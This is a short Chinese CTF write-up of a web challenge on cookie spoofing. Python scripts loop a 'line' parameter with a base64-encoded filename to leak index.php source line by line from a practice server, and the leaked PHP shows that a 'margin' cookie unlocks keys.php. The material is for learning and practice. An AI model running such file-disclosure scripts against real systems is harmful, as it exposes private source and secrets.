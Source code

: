 
## cookie欺骗

看到网址里面filename后面是base64编码的东西，尝试解码看到是keys.txt
改成index.php试一试，然后这里有一个line参数，随便输个1什么的，可以看到有php代码返回
（有一个困惑就是输入0不返回最开始的<?php）然后构造低端脚本：

```python
import requests

#http://123.206.87.240:8002/web11/index.php?line=&filename=aW5kZXgucGhw

url1 = 'http://123.206.87.240:8002/web11/index.php?line='
url2 = '&filename=aW5kZXgucGhw'

for para in range(0,20):
    url = url1 + repr(para) + url2
    print(requests.get(url).content)
```

得到了以下代码
```PHP
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;//这里应该是base进制转换，line为空的话默认设置为0
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
$file_list = array(
'0' =>'keys.txt',
'1' =>'index.php',
);

if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
$file_list[2]='keys.php';
}

if(in_array($file, $file_list)){
$fa = file($file);//应该是打开文件的意思，文件应该是在同级目录下
echo $fa[$line];
}
?>
```
然后这是别人的获取代码脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
s=requests.Session()
url='http://120.24.86.145:8002/web11/index.php'
for i in range(1,20):
    payload={'line':str(i),'filename':'aW5kZXgucGhw'}
    a=s.get(url,params=payload).content
    content=str(a,encoding="utf-8")
    print(content)
```
嗯人家的正规很多啊
